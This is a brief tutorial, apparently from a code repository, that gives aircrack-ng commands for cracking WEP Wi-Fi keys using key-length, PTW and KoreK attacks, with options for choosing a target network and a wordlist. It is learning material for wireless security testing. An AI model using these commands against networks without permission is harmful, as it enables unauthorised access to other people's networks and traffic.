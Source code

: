 # WEP Cracking Techniques

Without closing our open terminal windows let cracking the password

Cracking the key

```sh
sudo aircrack-ng -n <key_lenth> wep_file.cap
# key_lenth {64, 128}
```

PTW Attack

```sh
sudo aircrack-ng -e <ssid> wep_file*.cap
```

KoreK Attack

```sh
sudo aircrack-ng -e <ssid> -K wep_file*.cap
```

Aircrack-ng useful options :

```sh
-a <mode> : use 1 for WEP, 2 for WPA
-e <ssid> : target network SSID
-b <BSSID>: target AP's MAC adress
-w <worlists> : path to wordlist for dictionary attack
```
